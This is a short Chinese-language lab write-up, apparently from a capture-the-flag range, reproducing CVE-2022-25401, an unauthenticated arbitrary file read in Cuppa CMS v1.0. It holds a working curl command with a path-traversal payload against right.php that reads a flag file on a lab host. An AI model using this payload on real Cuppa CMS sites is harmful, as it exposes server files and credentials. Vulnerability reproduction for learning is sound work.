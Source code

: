 ```yaml
---
title: CVE-2022-25401【任意文件读取】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - '任意文件读取'
---
```


## 1. 漏洞介绍

Cuppa CMS v1.0 administrator/templates/default/html/windows/right.php文件存在任意文件读取漏洞

## 2. 漏洞复现

漏洞测试POC：

[Non-authenticated Local File Inclusion vulnerability in CuppaCMS templates · Issue #18 · CuppaCMS/CuppaCMS · GitHub](https://github.com/CuppaCMS/CuppaCMS/issues/18)

获取 flag【[Linux必备下载命令之curl详解 - 知乎](https://zhuanlan.zhihu.com/p/336488696)】

```bash
 curl -X POST "http://eci-2ze6te21tps04ud8cibe.cloudeci1.ichunqiu.com/templates/default/html/windows/right.php" -d "url=../../../../../../../../../../../../flag"
```

![CVE-2022-25401 - Picture-1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25401%20-%20Picture-1.jpg)

![CVE-2022-25401 - Picture-2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-25401%20-%20Picture-2.jpg)

